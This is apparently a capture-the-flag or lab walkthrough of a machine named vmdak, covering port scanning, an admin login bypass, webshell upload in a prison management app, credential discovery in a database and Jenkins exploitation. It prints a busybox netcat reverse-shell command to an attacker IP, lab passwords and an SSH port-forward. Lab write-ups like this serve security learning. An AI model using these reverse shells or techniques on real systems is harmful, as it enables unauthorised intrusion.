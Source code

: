 # vmdak

i start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

The port 9443 says it's http but there is a SSL problem so we need to add the domain in etc hosts and request the website using https and then we see this:

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

I look at some known exploits for this framework, click on admin dashboard and see this:

{% embed url="https://www.exploit-db.com/exploits/52017" %}

so i try it out:

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

and i manage to get in:

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

the box is very laggy and i have to wait 5min + for one request so i will come back later

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok so after looking for fast5 exploit me saw that this was called Prison Management System so i looked up known exploits that could lead to code execution and saw this article:

{% embed url="https://sploitus.com/exploit?id=PACKETSTORM:179737" %}

So i go and create a new user:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i capture the post request:

<figure><img src="../../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>

and we got ourselves a webshell:

<figure><img src="../../../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

and we manage to get a reverse shell with a busybox nc command:

```
busybox nc 192.168.45.245 80 -e sh
```

I try plenty of privesc but don't find anything so i suppose i need to pivot to user vmdak and start looking for credentials and find something in the database folder:

<figure><img src="../../../.gitbook/assets/image (262).png" alt=""><figcaption></figcaption></figure>

```
root:sqlCr3ds3xp0seD
```

but it's not the password of root so i guess that i need to enumerate some sort of mysql service?

```
mysql -u root -p
```

and then we find this password:

<figure><img src="../../../.gitbook/assets/image (263).png" alt=""><figcaption><p>RonnyCache001</p></figcaption></figure>

The only user is vmdak and root so i'll try for those users:

<figure><img src="../../../.gitbook/assets/image (264).png" alt=""><figcaption></figcaption></figure>

So it's the password of user vmdak, nice

ran some linpeas and pspy and found nothing but this seemed interesting:

<figure><img src="../../../.gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

Ok so since i have ssh access to user vmdak i can redirect the jenkins server on my local port :

```
ssh -L 9999:127.0.0.1:8080 vmdak@192.168.212.103
```

So if i visit my [http://127.0.0.1:9999](http://127.0.0.1:9999) i'll see the jenkins server:

<figure><img src="../../../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

So i tried accessing this CLI but failed so i looked at some file read vulns for jenkins:&#x20;

{% embed url="https://medium.verylazytech.com/cve-2024-23897-jenkins-file-read-vulnerability-poc-6a1dfdbfd6f2" %}

<figure><img src="../../../.gitbook/assets/image (267).png" alt=""><figcaption></figcaption></figure>

and i manage to connect:&#x20;

<figure><img src="../../../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins" %}

So i create a random job that executes a reverse shell once it's build:

<figure><img src="../../../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

i save and build and get my shell:

<figure><img src="../../../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>
